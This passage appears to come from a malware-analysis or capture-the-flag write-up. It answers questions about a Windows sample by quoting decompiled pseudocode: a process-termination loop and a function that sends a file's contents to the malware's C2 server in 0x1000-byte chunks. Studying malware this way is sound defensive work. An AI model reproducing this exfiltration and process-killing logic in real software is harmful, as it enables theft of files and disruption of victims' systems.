 ```bash
                        v31 = OpenProcess(1u, 0, v238.th32ProcessID);
                        v32 = v31;
                        if ( v31 )
                        {
                          TerminateProcess(v31, 0);
                          CloseHandle(v32);
                        }
                      }
                    }
                    while ( Process32NextW(v30, &v238) );
```

**0x14000755F**

## 8. What is the maximum chunk size the malware uses when sending the file contents to the C2 server in hex?
```bash
// positive sp value has been detected, the output may be wrong!
__int64 sub_1400019C5()
{
  const char *v0; // rdx
  const char *v1; // rdi
  SOCKET v2; // r8
  SOCKET v3; // rsi
  const char *v4; // rcx
  FILE *v5; // rbx
  int v6; // eax
  int v8; // ebp
  int i; // eax
  size_t v10; // rax
  u_long v11; // [rsp+2Ch] [rbp-102Ch] BYREF
  char v12[4136]; // [rsp+30h] [rbp-1028h] BYREF

  sub_14000B730();
  v1 = v0;
  v3 = v2;
  v5 = fopen(v4, "rb");
  if ( v5 )
  {
    v6 = strlen(v1);
    if ( send(v3, v1, v6 + 1, 0) != -1 )
    {
      fseek(v5, 0, 2);
      v8 = ftell(v5);
      fseek(v5, 0, 0);
      v11 = htonl(v8);
      for ( i = send(v3, (const char *)&v11, 4, 0); i != -1; i = send(v3, v12, v10, 0) )
      {
        v10 = fread(v12, 1ui64, 0x1000ui64, v5);
        if ( !v10 )
        {
          fclose(v5);
          return 0i64;
        }
      }
    }
    fclose(v5);
  }
  return 0xFFFFFFFFi64;
}
```
